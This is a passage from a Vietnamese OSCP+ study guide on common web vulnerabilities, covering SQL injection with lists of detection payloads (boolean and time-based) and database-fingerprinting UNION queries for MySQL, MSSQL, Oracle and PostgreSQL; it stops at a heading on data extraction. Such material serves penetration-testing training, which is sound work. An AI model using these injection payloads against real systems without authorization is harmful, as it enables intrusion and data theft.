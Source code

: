 
# 3. Common Web Vulnerabilities

Web vulnerabilities là những điểm yếu trong các ứng dụng web có thể bị lợi dụng để thực hiện các cuộc tấn công, bao gồm truy cập trái phép, đánh cắp dữ liệu, và thực thi mã từ xa. Hiểu biết và phát hiện các lỗ hổng phổ biến này là kỹ năng thiết yếu cho OSCP+.

## 3.1. SQL Injection

SQL Injection (SQLi) là kỹ thuật tấn công cho phép chèn mã SQL độc hại vào các truy vấn mà ứng dụng thực hiện đến cơ sở dữ liệu, có thể dẫn đến truy cập trái phép, đánh cắp dữ liệu, hoặc thậm chí kiểm soát server.

### 3.1.1. Manual Testing

#### Các kỹ thuật phát hiện cơ bản:

```
# Kiểm tra lỗi với các ký tự đặc biệt
' OR 1=1 --
" OR 1=1 --
') OR '1'='1
1 OR 1=1

# Kiểm tra lỗi dựa trên thời gian
' OR SLEEP(5) --
" OR pg_sleep(5) --
' OR 1=1 AND SLEEP(5) --
```

#### Phát hiện loại cơ sở dữ liệu:

```
# MySQL
' OR @@version --
' UNION SELECT @@version,2 --

# MSSQL
' OR @@SERVERNAME=@@SERVERNAME --
' UNION SELECT @@version,2 --

# Oracle
' OR ROWNUM=ROWNUM --
' UNION SELECT banner,2 FROM v$version --

# PostgreSQL
' OR version() --
' UNION SELECT version(),2 --
```

#### Trích xuất dữ liệu với UNION:
